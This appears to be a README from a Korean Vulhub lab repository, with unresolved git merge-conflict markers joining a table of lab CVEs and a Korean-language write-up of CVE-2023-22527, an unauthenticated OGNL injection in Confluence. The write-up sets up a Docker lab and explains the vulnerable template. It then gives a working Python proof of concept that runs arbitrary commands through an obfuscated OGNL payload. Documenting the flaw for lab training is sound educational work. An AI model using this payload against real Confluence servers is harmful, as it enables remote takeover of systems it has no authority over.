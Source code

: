 <<<<<<< HEAD
# Korean Vulhub (한글판)

![logo](./README.assets/logo.svg)

[Vulhub](https://github.com/vulhub/vulhub) (<https://vulhub.org/>) 을 기반으로 한국어 번역 및 컨텐츠를 추가하는 것을 목표로 공동작업합니다.

차세대 보안리더 양성 프로그램 화이트햇 스쿨 수강생들이 기여하고 있습니다.

<br/>

### Table of Contents

- Django
  - [CVE-2021-35042](./_Django/CVE-2021-35042/README.md) | QuerySet.order_by() SQL Injection
- Express
  - [CVE-2024-29041](./Express/CVE-2024-29041/README.md) | Express 오픈 리다이렉트 취약점
- Flask
  - [SSTI](./Flask/SSTI/README.md) | Server Side Template Injection
- MySQL
  - [CVE-2012-2122](./MySQL/CVE-2012-2122/README.md) | MySQL Authentication Bypass
- Next.js
  - [CVE-2025-29927](./Next.js/CVE-2025-29927/README.md) | Next.js 미들웨어 인가 우회
- Nginx
  - [CVE-2017-7529](./Nginx/CVE-2017-7529/README.md) | Nginx Integer Overflow Vulnerability
=======
# CVE-2023-22527

**Author** : 6반 김명규

**github** : https://github.com/rlaaudrb1104/kr-vulhub/tree/main/Confluence/CVE-2023-22527

## 개요

- **CVE ID**: CVE-2023-22527
- **공개일**: 2024년 1월 16일
- **심각도**: CVSS 10.0 (Critical)
- **영향받는 제품**: Confluence Data Center 및 Server (버전 8.0.x ~ 8.5.3)
- **취약점 유형**: 템플릿 인젝션을 통한 OGNL(Object-Graph Navigation Language) 인젝션
- **공격자 요구 조건**: 인증되지 않은 원격 공격자
- **영향**: 임의의 시스템 명령 실행 및 전체 시스템 제어 가능

## 환경 구축

다음 명령을 실행하여 Confluence Server 8.5.3을 시작합니다.

```bash
docker compose up -d
```

`http://localhost:8090` 에 접근하면 설치 가이드가 표시됩니다. "평가판 설치"를 선택하면 라이선스 키를 입력하라는 메시지가 표시됩니다. Atlassian에서 Confluence Server 테스트 인증서를 신청해야 합니다.

![image.png](image_01.png)

데이터베이스 구성 페이지에서 다음과 같이 입력합니다.

- **Hostname** : db
- **Port** : 5432
- **Database name** : confluence
- **Username** : postgres
- **Password** : postgres

![image.png](image_02.png)

**Example Site 클릭**

![image.png](image_03.png)

**Manage users and groups within Confluence 클릭**

![image.png](image_04.png)

**admin 계정 생성**

![image.png](image_05.png)

**환경 구축 완료**

![image.png](image_06.png)

## 원인 분석

해당 취약점은 Confluence의 템플릿 파일인 text-inline.vm에서 사용자 입력을 적절히 검증하지 않고 OGNL 표현식을 평가함으로써 발생합니다. 

**취약한 코드(text-inline.vm)**

```java

#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
#if( !$labelValue )
    #set( $labelValue = $parameters.label )
#end

#if (!$parameters.id)
    #set( $parameters.id = $parameters.name)
#end

<label id="${parameters.id}-label" for="$parameters.id">
$!labelValue
#if($parameters.required)
    <span class="aui-icon icon-required"></span>
    <span class="content">$parameters.required</span>
#end
</label>

#parse("/template/aui/text-include.vm")
```

이 코드는 `$parameters.label` 의 값을 `getText` 함수에 전달하고, 그 결과를 `$stack.findValue`를 통해 평가합니다. 따라서 `$parameters.label`에 악의적인 OGNL 표현식을 포함시키면 해당 표현식이 서버 측에서 실행되어 임의의 코드가 실행될 수 있습니다.

## POC

```python
import requests
import sys

cmd = sys.argv[1]

url = "http://localhost:8090/template/aui/text-inline.vm"

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}
data = r"label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({'" + cmd + "'}))"

r = requests.post(url, headers=headers, data=data)

if (r.headers.get("X-Cmd-Response")):
    print("[+] exploit success")
    print(r.headers.get("X-Cmd-Response"))
else:
    print("No response")
```

위 코드는 명령어를 인자로 받아 취약한 Confluence 인스턴스에 POST 요청을 보내고, 실행 결과를 X-Cmd-Response 헤더에서 출력합니다. 

### POC 실행

```bash
python poc.py [cmd 명령어]
```

### 실행결과

![image.png](image_07.png)

![image.png](image_08.png)
>>>>>>> ebcc412 (CVE-2023-22527)
